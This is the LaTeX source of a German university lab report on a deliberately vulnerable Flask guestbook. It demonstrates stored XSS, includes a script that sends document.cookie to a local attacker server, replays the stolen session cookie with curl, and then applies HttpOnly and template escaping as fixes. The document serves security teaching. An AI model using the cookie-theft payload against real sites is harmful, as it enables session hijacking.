\documentclass[
	fontsize=12pt,
	paper=a4,
	numbers=noenddot,
	listof=totoc,
	listof=entryprefix,
	listof=nochaptergap,
	bibliography=totoc,
	parskip=half,
	openany
]{scrbook}

\usepackage{cmap}


\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{ngerman}


\usepackage{scrhack}
\usepackage[table]{xcolor}
\usepackage{chngcntr}
\usepackage{enumitem}


\usepackage{amsthm}


\usepackage{lipsum}
\usepackage{unicode-math}


\usepackage{mathtools}


\usepackage[
	colorlinks=false,
	linkcolor=black,
	citecolor=black,
	filecolor=black,
	urlcolor=black,
	bookmarks=true,
	bookmarksopen=true,
	bookmarksopenlevel=3,
	bookmarksnumbered,
	plainpages=false,
	pdfpagelabels=true,
	hyperfootnotes
]{hyperref}


\renewcommand{\familydefault}{\sfdefault}
\usepackage[onehalfspacing]{setspace}
\raggedbottom

\usepackage{anyfontsize}

\addtokomafont{chapter}{\sffamily\large\bfseries}
\addtokomafont{section}{\sffamily\normalsize\bfseries}
\addtokomafont{subsection}{\sffamily\normalsize\mdseries}
\addtokomafont{caption}{\sffamily\normalsize\mdseries}

\usepackage{relsize}
\renewcommand*{\UrlFont}{\ttfamily\smaller\relax}


\usepackage[
	bindingoffset=0cm,
	inner=2.5cm,
	outer=2.5cm,
	top=3cm,
	bottom=2cm
]{geometry}

\usepackage[
	headsepline,
	plainheadsepline
]{scrlayer-scrpage}
\clearpairofpagestyles
\addtokomafont{pagehead}{\normalfont}
\ohead*{\thepage}
\ihead*{\leftmark}


\usepackage{graphicx}
\graphicspath{{pictures/}}
\usepackage{float}

\renewcommand{\thefigure}{\arabic{figure}}
\counterwithout{figure}{chapter}

\usepackage{wrapfig}


\usepackage{booktabs}
\usepackage{multirow}
\usepackage{tabularx}

\renewcommand{\thetable}{\arabic{table}}
\counterwithout{table}{chapter}


\usepackage{listings}
\usepackage{beramono}

\renewcommand{\lstlistlistingname}{List of Code Listings}
\renewcommand{\lstlistingname}{Code Listing}
\newcommand{\listoflolentryname}{\lstlistingname}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.5,0,0.33}
\definecolor{codepurblue}{rgb}{0.16,0.0,1.0}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{codestyle}{
	backgroundcolor=\color{backcolour},
	commentstyle=\color{codegreen},
	keywordstyle=\bfseries\color{codepurple},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurblue},
	basicstyle=\scriptsize\ttfamily,
	breakatwhitespace=false,
	breaklines=true,
	captionpos=b,
	keepspaces=true,
	numbers=left,
	numbersep=5pt,
	showspaces=false,
	showstringspaces=false,
	showtabs=false,
	tabsize=2,
	escapeinside={(*@}{@*)}
}
\lstset{style=codestyle, numberbychapter=false}



\KOMAoptions{toc=chapterentrydotfill}
\addtokomafont{chapterentry}{\normalfont}
\setuptoc{toc}{totoc}

\DeclareTOCStyleEntry[beforeskip=0cm]{chapter}{chapter}
\DeclareTOCStyleEntry[beforeskip=0cm]{section}{section}
\DeclareTOCStyleEntry[beforeskip=0cm]{default}{subsection}

\BeforeStartingTOC[lof]{\def\autodot{:}}
\BeforeStartingTOC[lot]{\def\autodot{:}}
\BeforeStartingTOC[lol]{\def\autodot{:}}


\iffalse
\usepackage{csquotes}
\setlength\bibitemsep{.5\baselineskip}
\setcounter{biburlnumpenalty}{9000}
\setcounter{biburllcpenalty}{9000}
\setcounter{biburlucpenalty}{9000}

\fi

\usepackage[printonlyused]{acronym}


\usepackage[title,titletoc]{appendix}

\newcommand{\appendixchapter}[1]{
\cleardoublepage
\pagenumbering{arabic}
\renewcommand{\thepage}{\thechapter-\arabic{page}}
\chapter{#1}
}

\newcommand{\monthlyreport}[2]{
\section{#1}
\centering
\includegraphics[trim=55 35 55 35,clip,width=1\textwidth]{#2}
\clearpage
}



\newtheorem{beispiel}{Beispiel}

\newtheorem{these}{These}

\newtheorem{definition}{Definition}


\usepackage[nameinlink, noabbrev]{cleveref}


\lstset{
	extendedchars=true,
	inputencoding=utf8,
	literate=
		{ä}{{\"a}}1
		{ö}{{\"o}}1
		{ü}{{\"u}}1
		{ß}{{\ss}}1
		{Ä}{{\"A}}1
		{Ö}{{\"O}}1
		{Ü}{{\"U}}1
}

\begin{document}

\begin{titlepage}
	\pagestyle{empty}

	\begin{flushright}
		\begin{figure}[ht]
			\flushright
			
\includegraphics[height=2cm]{../../for_latex/hfu}
		\end{figure}
	\end{flushright}

	\begin{center}
		\vspace{3cm}

		{\fontsize{22}{22} \selectfont \textbf{Blatt 5}}\\[5mm]
		{\fontsize{18}{18} \selectfont Web-Security und Intrusion Prevention}

		\vspace{12cm}

		{\fontsize{14}{14} \selectfont Luis Staudt}
	\end{center}
\end{titlepage}


\chapter*{Aufgabe 1: Die Webanwendung}

Die Anwendung ist ein Flask-Gästebuch. Nach dem Login mit dem Passwort
\texttt{password123} wird ein Cookie \texttt{secretcookie=itsasecret} gesetzt,
das die Sitzung repräsentiert. Einträge bestehen aus Name und Nachricht. Das
Template \texttt{index.html} rendert die Einträge mit
\texttt{\{\% autoescape off \%\}}, sodass Benutzereingaben ungefiltert als HTML
ausgegeben werden. Darin liegt die XSS-Schwachstelle.

\chapter*{Aufgabe 2: Ist die Seite angreifbar?}

In das Formularfeld \emph{Nachricht} (alternativ \emph{Name}) des Gästebuchs
wird folgender Code eingetragen:

\begin{lstlisting}[language=HTML]
<script>alert("XSS durch Luis")</script>
\end{lstlisting}

Der Code wird ungefiltert in die Seite übernommen; im HTML steht wortwörtlich
\verb|<script>alert("XSS durch Luis")</script>|. Beim nächsten Aufruf wird er im
Browser ausgeführt und es erscheint das Alert-Fenster. Der Angriff wurde mit
einem headless Chromium nachgestellt, der Dialog-Text lautete
\texttt{XSS durch Luis}. \Cref{fig:xss} zeigt das eingeloggte Gästebuch mit den
Angreifer-Einträgen. Der Script-Inhalt ist nicht als Text sichtbar, weil er
ausgeführt statt angezeigt wird.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\textwidth]{images/guestbook_xss}
	\caption{Gästebuch mit eingeschleusten Einträgen; das Alert wurde ausgelöst.}
	\label{fig:xss}
\end{figure}

\chapter*{Aufgabe 3: Cookie stehlen}

Mit JavaScript lässt sich der Browser des Opfers zu einem Angreifer-Server
leiten und dabei \texttt{document.cookie} als GET-Parameter übergeben. Als
Angreifer-Server genügt ein einfacher Webserver auf Port 8000. Eingefügt wird
folgender Eintrag:

\begin{lstlisting}[language=HTML]
<script>new Image().src="http://127.0.0.1:8000/steal?c="
        +encodeURIComponent(document.cookie)</script>
\end{lstlisting}

Lädt das Opfer das Gästebuch, feuert der Code unbemerkt eine Anfrage an den
Angreifer-Server. Dessen Log zeigt das geheime Cookie:

\begin{lstlisting}[language=bash]
11:51:01 127.0.0.1 GET /steal?c=secretcookie%3Ditsasecret%3B%20lastaccess%3D...
\end{lstlisting}

Der dekodierte Wert lautet \texttt{secretcookie=itsasecret}; das Sitzungscookie
wurde erfolgreich exfiltriert.

\chapter*{Aufgabe 4: Gestohlenes Cookie nutzen}

Das Cookie entspricht einer Sitzungs-ID. Mit curl und dem gestohlenen Cookie
lässt sich die Login-Seite umgehen und ein Eintrag erzeugen, ohne das Passwort zu
kennen:

\begin{lstlisting}[language=bash]
curl -b "secretcookie=itsasecret" -X POST \
  --data-urlencode "name=Angreifer-per-curl" \
  --data-urlencode "message=Eintrag ohne Passwort, nur mit gestohlenem Cookie" \
  http://127.0.0.1:5000/
-> HTTP 200, Eintrag erscheint im Gaestebuch
\end{lstlisting}

\chapter*{Aufgabe 5: Absicherung Schritt 1 -- HttpOnly}

In \texttt{login()} wird das Cookie mit \texttt{httponly=True} gesetzt. JavaScript
hat damit keinen Zugriff mehr auf das Cookie, sodass der Diebstahl per
\texttt{document.cookie} fehlschlägt:

\begin{lstlisting}[language=Python]
resp.set_cookie(COOKIE_NAME, COOKIE_SECRET, httponly=True)
\end{lstlisting}

Die Kontrolle des \texttt{Set-Cookie}-Headers nach erneutem Login bestätigt das
Flag:

\begin{lstlisting}[language=bash]
Set-Cookie: secretcookie=itsasecret; HttpOnly; Path=/
\end{lstlisting}

\chapter*{Aufgabe 6: Absicherung Schritt 2 -- XSS verhindern}

Die Ursache wird im Template behoben. Das automatische Escaping von Jinja2 wird
wieder aktiviert, indem der Block \texttt{\{\% autoescape off \%\}} /
\texttt{\{\% endautoescape \%\}} entfernt wird. Danach werden Benutzereingaben
HTML-escaped statt ausgeführt.

Die Kontrolle zeigt, dass dieselbe Payload nun nur noch als Text dargestellt
wird und kein \texttt{<script>} mehr im HTML steht:

\begin{lstlisting}[language=bash]
&lt;script&gt;alert(&#34;XSS durch Luis&#34;)&lt;/script&gt;
\end{lstlisting}

Alternativ liessen sich eingehende Nachrichten nach gefährlichen Zeichen
(\texttt{<}, \texttt{>}, \texttt{script}) filtern. Das Escaping im Template ist
jedoch die robustere Lösung, da es alle Ausgaben abdeckt. Zusammen mit
\texttt{HttpOnly} aus Aufgabe 5 ist der Cookie-Diebstahl damit doppelt
abgesichert.


\end{document}
